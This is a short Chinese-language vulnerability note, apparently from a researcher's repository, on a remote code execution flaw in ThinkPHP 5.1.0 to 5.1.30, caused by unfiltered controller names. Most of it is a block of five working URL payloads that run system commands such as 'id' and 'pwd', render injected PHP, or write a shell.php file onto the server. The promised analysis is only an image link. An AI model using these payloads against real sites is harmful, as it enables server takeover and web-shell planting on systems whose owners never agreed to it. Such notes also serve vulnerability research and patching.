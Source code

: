 # thinkphp 5.1.x RCE

# 参考文章

[https://xz.aliyun.com/t/9369](https://xz.aliyun.com/t/9369)

# RCE1

## 根本原因

thinkphp没有对用户传入的操作器名称进行过滤,导致可以调用顶部类中的方法,造成一系列的危害

## 影响版本

TP5.1.0-5.1.30

## payload

 ```PHP
 ?s=index/\think\Request/input&filter[]=system&data=pwd
 ?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>#注意由于windows不区分大小写的原因所以这个payload在windows下无法使用
 ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
 ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 ```


## 分析
![](attachment/images/thinkphp5.1_rce.png)